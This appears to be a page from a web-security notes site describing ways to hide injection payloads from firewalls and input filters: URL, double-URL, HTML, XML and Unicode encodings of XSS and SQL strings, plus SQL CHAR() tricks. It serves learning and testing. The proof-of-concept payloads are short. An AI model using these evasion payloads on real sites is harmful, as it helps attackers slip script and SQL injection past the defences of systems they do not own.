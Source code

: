 ```yaml
---
title: "General Obfuscation"
weight: 1
---
```


# General Obfuscation

{{< hint style=notes >}}
**Note**: for Javascript obfuscation go on [Javascript & Obfuscation]({{< ref "web/web-security/javascript-and-obfuscation" >}})
{{< /hint >}}

## URL encoding

Sometimes, WAFs may fail to properly URL decode your input during checks.

-> Encode the keywords, so `SELECT` becomes `%53%45%4C%45%43%54`.

### Double URL encoding

Since the WAF decodes the input only once, it may fail to detect the threat. If the back-end server double-decodes it, the payload will be injected successfully.

```sh
[...]/?search=%253Cimg%2520src%253Dx%2520onerror%253Dalert(1)%253E
```

### HTML encoding

In certain HTML locations, like element text or attribute values, browsers automatically decode these references when parsing.

Server-side checks for alert() may miss it if you HTML encode characters.

```html
<img src=x onerror="&#x61;lert(1)">
```

When the browser renders the page, it will decode and execute the injected payload.

**Leading zeros**

HTML encode `:` -> `&#58;` = `&#0000000000058;`

`<a href="javascript&#00000000000058;alert(1)">Click me</a>`

---

## XML encoding

XML supports character encoding with the same numeric escape sequences as HTML.

```xml
<stockCheck>
    <productId>
        123
    </productId>
    <storeId>
        999 &#x53;ELECT * FROM information_schema.tables
    </storeId>
</stockCheck>
```

---

## Multiple encodings

```html
<a href="javascript:&bsol;u0061lert(1)">Click me</a>
```

(HTML) `&bsol;` -> `\`

```html
<a href="javascript:\u0061lert(1)">Click me</a>
```

(Unicode) `\u0061` -> `a`

```html
<a href="javascript:alert(1)">Click me</a>
```

---

## SQL CHAR() function

`CHAR(83)` = `CHAR(0x53)` = `S`

`SELECT` is blacklisted ->

```sql
CHAR(83)+CHAR(69)+CHAR(76)+CHAR(69)+CHAR(67)+CHAR(84)
```
